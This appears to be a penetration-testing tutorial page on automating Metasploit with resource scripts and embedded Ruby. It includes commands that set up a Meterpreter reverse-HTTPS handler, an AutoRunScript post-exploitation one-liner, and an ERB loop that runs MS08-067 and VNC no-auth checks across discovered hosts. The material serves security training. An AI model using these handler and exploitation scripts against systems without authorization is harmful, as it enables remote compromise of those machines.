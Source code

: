 ## METASPLOIT RESOURCE FILES

<blockquote>Resource scripts provide an easy way for you to automate repetitive tasks in Metasploit. Conceptually, they're just like batch scripts. They contain a set of commands that are automatically and sequentially executed when you load the script in Metasploit. You can create a resource script by chaining together a series of Metasploit console commands and by directly embedding Ruby to do things like call APIs, interact with objects in the database, and iterate actions.</blockquote>

![pic](http://i68.tinypic.com/21ovkfm.jpg)

| article chapters | jump links | API examples |
|-------|---|---|
| resource files | [resource files (examples)](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#resource-files-examples) |  run migrate -n wininit.exe |
| post exploitation | [post exploitation (rc)](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#post-exploitation) | self.run_single("use auxiliary/scanner/vnc/vnc_none_auth") |
| erb scripting| [ERB scripting (ruby)](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#erb-scripting-ruby) | <ruby>hosts = framework.datastore['RPATH'].split('/')[1..-5]</ruby> |

<br />

### Description:
<blockquote>The console (msfconsole or msf pro) supports basic automation using resource scripts. These scripts contain a set of console commands that are executed when the script loads. In addition to the basic console (core) commands, these scripts are also treated as ERB models. ERB is a way to embed Ruby code directly into a document. This allows you to call APIs that are not exposed through console commands and until you programmatically generate and return a list of commands based on your own logic. Resource scripts can be specified with the -r option for the Metasploit Console and runs automatically on startup if it exists. Resource scripts can also be run from the console prompt through the resource command (msf> resource file-to-run.rc)</blockquote>


<br />

## EXTERNAL LINKS

- [Rapid7 resource files](https://metasploit.help.rapid7.com/docs/resource-scripts)
- [INULBR metasploit-automatizacao](http://blog.inurl.com.br/2015/02/metasploit-automatizacao-resource-files_23.html#more)
- [Offensiveinfosec writing-resource-scripts](https://offensiveinfosec.wordpress.com/2012/04/08/writing-resource-scripts-for-the-metasploit-framework/)

---

<br /><br /><br />

## RESOURCE FILES EXAMPLES

- **Runing resource scripts**

      msfconsole -r my_resource_file.rc
      msfconsole -r /root/my_resource_file.rc
      msf > resource /root/my_resource_file.rc
      meterpreter > resource /root/my_resource_file.rc

<br />

<blockquote>There are two ways to create a resource script, which are creating the script manually or using the makerc command. personally recommend the makerc command over manual scripting, since it eliminates typing errors. The makerc command saves all the previously issued commands in a file, which can be used with the resource command.</blockquote>

- **Create a resource file to display the version number of metasploit (manually)**<br />
`[bash prompt]`

      touch my_resource_file.rc
      echo 'version' > my_resource_file.rc

- **Create a resource file to display the version number of metasploit (makerc)**<br />
`[metasploit prompt]`

      kali > msfconsole
      msf > version
      msf > makerc /root/my_resource_file.rc

<br /><br />

<blockquote>In the next example we are going to write one handler resource file</blockquote>

- **Create a resource file using bash terminal prompt (bash)**<br />
`[bash prompt]`

      touch my_resource_file.rc
         echo 'use exploit/multi/handler' > my_resource_file.rc
         echo 'set PAYLOAD windows/meterpreter/reverse_https' >> my_resource_file.rc
         echo 'set LHOST 192.168.1.71' >> my_resource_file.rc
         echo 'set LPORT 666' >> my_resource_file.rc
         echo 'exploit' >> my_resource_file.rc

- **Create a resource file using the core command 'makerc'**<br />
'maekerc will build a resource file with the settings enter in msfconsole'<br />
`[metasploit prompt]`

      kali > msfconsole
      msf > use exploit/multi/handler
      msf exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_https
      msf exploit(multi/handler) > set LHOST 192.168.1.71
      msf exploit(multi/handler) > set LPORT 666
      msf exploit(multi/handler) > exploit

      msf exploit(multi/handler) > makerc my_handler.rc

<br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#metasploit-resource-files)

---

<br /><br /><br />

## POST EXPLOITATION

- **AutoRunScript**

      sudo msfconsole -x 'spool $IPATH/output/report.log; use exploit/multi/handler; set LHOST $lhost; set LPORT $lport; set PAYLOAD $paylo; set AutoRunScript multi_command -rc $IPATH/aux/$P0; exploit'

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#metasploit-resource-files)

---

<br /><br /><br />

## ERB SCRIPTING (ruby)

- **erb scripting**

      <ruby>
      framework.db.hosts.each do |h|
         h.services.each do |serv|
 
         if serv.port == 445 and h.os_flavor =~/XP|.NET Server|2003/i
                next if (serv.port != 445)
                print_good("#{h.address} seems to be Windows #{h.os_flavor}...")
                self.run_single("use exploit/windows/smb/ms08_067_netapi")
                print_good("Running ms08_067_netapi check against #{h.address}")
                self.run_single("set RHOST #{h.address}")
                self.run_single("check")
   
         elsif serv.port == 5900 and h.os_name =~/Linux/i
                next if (serv.port != 5900)
                print_good("#{h.address} seems to be Linux #{h.os_flavor}...")
                self.run_single("use auxiliary/scanner/vnc/vnc_none_auth")
                print_good("Running VNC no auth check against #{h.os_flavor}")
                self.run_single("set RHOSTS #{h.address}")
                self.run_single("run")
 
         else
                print_error("#{h.address} does not have port 445/5900 open")
                return nil 
         end
       end
      end
      </ruby>


#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#metasploit-resource-files)

---

<br /><br /><br />


